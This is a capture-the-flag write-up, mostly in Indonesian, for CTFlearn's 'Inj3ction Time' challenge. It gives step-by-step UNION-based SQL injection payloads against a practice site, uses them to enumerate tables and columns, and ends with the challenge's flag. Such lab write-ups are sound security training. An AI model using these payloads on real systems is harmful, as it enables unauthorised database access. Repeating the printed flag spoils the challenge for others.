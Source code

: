 # Inj3ction Time (100 Points)
I stumbled upon this website: http://web.ctflearn.com/web8/ and I think they have the flag in their somewhere. UNION might be a helpful command
# Solved
Diberikan sebuah website yg disuruh untuk mendapatkan flag menggunakan SQLi dengan teknik union, saat saya menginput
```
1 UNION SELECT 1,2,3,4
```
https://web.ctflearn.com/web8/?id=1+UNION+SELECT+1%2C2%2C3%2C4 , Saya menemukan pesan
```
Name: Saranac
Breed: Great Dane
Color: Black
Name: 2
Breed: 1
Color: 3
```
Yang berarti union kita hanya sukup sampai 4, kemudian mari kita raih kumpulan table menggunakan query
```
1 union select 1,TABLE_NAME,3,4 from INFORMATION_SCHEMA.TABLES
```
https://web.ctflearn.com/web8/?id=1+union+select+1%2CTABLE_NAME%2C3%2C4+from+INFORMATION_SCHEMA.TABLES , Saya menemukan table nya yaiut
```
Name: w0w_y0u_f0und_m3
```
Kemudian saya mencari column dari tabel tersebut menggunakan query
```
1 union select 1,TABLE_NAME,COLUMN_NAME,4 from INFORMATION_SCHEMA.COLUMNS
```
https://web.ctflearn.com/web8/?id=1+union+select+1%2CTABLE_NAME%2CCOLUMN_NAME%2C4+from+INFORMATION_SCHEMA.COLUMNS, Dan saya menemukan pesan
```
Name: w0w_y0u_f0und_m3
Breed: 1
Color: f0und_m3
```
Kita tau bahwa column yang tersedia ialah <b>f0und_m3</b>, kemudian saya mencoba untuk mengambil datanya
```
1 union select 1,f0und_m3,3,4 from w0w_y0u_f0und_m3
```
https://web.ctflearn.com/web8/?id=1+union+select+1%2Cf0und_m3%2C3%2C4+from+w0w_y0u_f0und_m3 , Disini saya mendapatkan flagnya
```
Name: Saranac
Breed: Great Dane
Color: Black
Name: abctf{uni0n_1s_4_gr34t_c0mm4nd}
Breed: 1
Color: 3
```
Flag : <b>abctf{uni0n_1s_4_gr34t_c0mm4nd}</b>